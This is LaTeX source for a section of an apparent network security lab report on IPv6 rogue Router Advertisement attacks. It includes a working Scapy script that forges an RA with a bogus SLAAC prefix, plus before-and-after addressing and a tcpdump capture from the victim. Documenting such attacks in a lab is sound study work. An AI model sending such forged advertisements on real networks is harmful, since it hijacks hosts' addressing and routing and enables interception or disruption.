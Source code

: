 \documentclass[twocolumn]{NobArticle}
\begin{document}
\subsection{NDP threats: RS/RA bogus prefix}

The last exercise targets the other half of NDP~\cite{rfc4861}, namely the
Router Advertisement messages used by hosts to autoconfigure IPv6 addresses
and default routes through SLAAC~\cite{rfc4862}. The attack is again
executed from Kali against the arpwatch-clients host on the same Layer-2
segment.

Before the attack, the victim only has the legitimate IPv6 configuration
delegated by the internal firewall:

\begin{lstlisting}
$ ip -6 addr show dev eth0
inet6 2001:470:b5b8:1e82:b89d:d3ff:feec:ea07/64
   scope global dynamic mngtmpaddr
inet6 fe80::b89d:d3ff:feec:ea07/64 scope link

$ ip -6 route show
2001:470:b5b8:1e82::/64 dev eth0 proto kernel
fe80::/64 dev eth0 proto kernel
default via fe80::64a3:2eff:fe83:1e7f
   dev eth0 proto ra metric 1024
\end{lstlisting}

From Kali we then crafted a forged Router Advertisement with Scapy,
sourced from a fake link-local address and announcing the bogus prefix
\texttt{2001:db8:bad:cafe::/64} with both the \texttt{L} (on-link) and
\texttt{A} (autonomous configuration) flags enabled:

\begin{lstlisting}
g = IPv6(src="fe80::a:b:c:d", dst="ff02::1")
h = ICMPv6ND_RA(M=0, O=0)
i = ICMPv6NDOptPrefixInfo(
       prefixlen=64,
       prefix="2001:db8:bad:cafe::",
       L=1, A=1)
pkt = g / h / i
send(pkt, iface="eth0")
\end{lstlisting}

The capture on the victim (\texttt{ra-bogus-prefix.pcap}) shows the rogue
RA followed by the Duplicate Address Detection NSs that the host
automatically performs on the new auto-configured addresses:

\begin{lstlisting}
$ tcpdump -r ra-bogus-prefix.pcap -nn -vv icmp6
23:37:46 IP6 fe80::a:b:c:d > ff02::1:
   ICMP6, router advertisement, length 48
   hop limit 0, router lifetime 1800s
   prefix info option (3):
      2001:db8:bad:cafe::/64,
      Flags [onlink, auto],
      valid time infinity
23:37:46 IP6 :: > ff02::1:ffec:ea07:
   ICMP6, neighbor solicitation,
   who has
   2001:db8:bad:cafe:b89d:d3ff:feec:ea07
23:37:47 IP6 :: > ff02::1:ffa8:2642:
   ICMP6, neighbor solicitation,
   who has
   2001:db8:bad:cafe:455:36ff:fea8:2642
\end{lstlisting}
\end{document}

